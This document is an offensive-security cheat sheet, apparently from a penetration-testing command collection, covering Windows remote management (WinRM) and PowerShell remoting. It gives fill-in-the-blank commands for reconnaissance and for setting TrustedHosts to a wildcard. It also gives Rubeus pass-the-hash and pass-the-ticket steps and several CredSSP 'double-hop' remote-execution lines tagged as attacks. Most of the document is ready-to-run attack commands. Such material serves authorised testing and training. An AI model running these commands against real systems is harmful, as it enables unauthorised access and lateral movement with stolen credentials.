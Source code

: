 # pwsh
% windows, remote, winrm, 5985, 5986
#plateform/linux  #target/remote  #protocol/winrm #port/5985 #port/5986

## remoting - test winrm 
#plateform/windows #target/local #cat/RECON
```powershell
Test-WSMan
```

## remoting - Get winrm config
#plateform/windows #target/local #cat/RECON
```powershell
winrm get winrm/config
get-childitem -Recurse -Path WSMan:
```

## remoting - Enable winrm (powershell)
#plateform/windows #target/local #cat/UTILS 
```powershell
Enable-PSRemoting -Force  
Set-Item wsman:\localhost\client\trustedhosts *  
```

## remoting - Test target is configure to use winrm (powershell)
#plateform/windows #target/local #cat/RECON 
```powershell
Test-WSMan -computername <target_name>
```

## remoting - Test target is configure to use winrm (powershell)
```powershell
Get-WSManInstance -ResourceURI wmicimv2/win32_service -SelectorSet @{name="winrm"} -ComputerName "<target_name>"
```


## remoting - copy file (to)
```powershell
Copy-Item -ToSession <sessionVariable> -Path '<local_path>' -Destination '<remote_path>' -Verbose
```

## remoting - copy file (from)
```powershell
Copy-Item -FromSession <sessionVariable> -Path '<remote_path>' -Destination '<local_path>' -Verbose
```

## remoting - PSSession (ptt/pth)
```
Rubeus.exe asktgt /user:<user> /rc4:<hash> /nowrap
Rubeus.exe createnetonly /program:powershell.exe
Rubeus.exe ptt /ticket:<ticket_b64>
Enter-PSSession <target_fqdn> -Authentication Negotiate
```

## remoting - command exec from pssession (double-hop)
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT   
https://learn.microsoft.com/en-us/powershell/module/microsoft.wsman.management/get-wsmaninstance?view=powershell-7.4#-authentication
None, Default, Digest, Negotiate, Basic, Kerberos, ClientCertificate, Credssp
```powershell
$password=ConvertTo-SecureString '<password>' -Asplaintext -force;$creds=New-Object System.Management.Automation.PSCredential("<domain_netbios>\<user>", $password);Invoke-Command -computername <target_fqdn> -ScriptBlock {<cmd|hostname>} -Credential $creds -Authentication 'Credssp'
```

## remoting - Oneliner command exec from pssession (double-hop)
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT   
```powershell
Invoke-Command -computername <target_fqdn> -ScriptBlock {<cmd|hostname>} -Credential (New-Object System.Management.Automation.PSCredential("domain_netbios>\<user>", (ConvertTo-SecureString '<password>' -Asplaintext -force))) -Authentication 'Credssp'
```


## remoting - script exec from psesion (double-hop)
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT 
```powershell
$password=ConvertTo-SecureString '<password>' -Asplaintext -force;
$creds=New-Object System.Management.Automation.PSCredential("domain_netbios>\<user>", $password);
Invoke-Command -ComputerName <target_fqdn> -FilePath <path_to_script> -Credential $creds -Authentication 'Default'
```

## remoting - nested command exec from pssession (double-hop)
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT   
```powershell
$cred = $New-Object System.Management.Automation.PSCredential("domain_netbios>\<user>", (ConvertTo-SecureString '<password>' -Asplaintext -force)); Invoke-Command -ComputerName <target_fqdn_1> -Credential $cred -ScriptBlock {Invoke-Command -ComputerName <target_fqdn_2> -Credential $Using:cred -ScriptBlock {<cmd|hostname>}}
```


## remoting - Get a powershell session with CREDSSP (double-hop)
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT 
```powershell
$password=ConvertTo-SecureString '<password>' -Asplaintext -force;
$creds=New-Object System.Management.Automation.PSCredential("domain_netbios>\<user>", $password);
$sess = New-PSSession -ComputerName <target_fqdn> -Credential $creds -Authentication 'Credssp' -SessionOption (New-PSSessionOption -ProxyAccessType NoProxyServer) 
Enter-PSSession $sess
```

## remoting - Register PSSessionConfiguration 1/2 (double-hop)
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT 
```powershell
Enter-PSSession -ComputerName <target_fqdn>
```

## remoting - Register PSSessionConfiguration 2/2 (double-hop)
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT 
```powershell
Register-PSSessionConfiguration -Name <config_name>  -RunAsCredential "domain_netbios>\<user>"; Restart-Service WinRM
```

## remoting - Register PSSessionConfiguration 3/3 (double-hop)
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT 
```powershell
Enter-PSSession -ComputerName <target_fqdn> -Credential "domain_netbios>\<user>" -Authentication 'Credssp' -ConfigurationName <config_name>
```
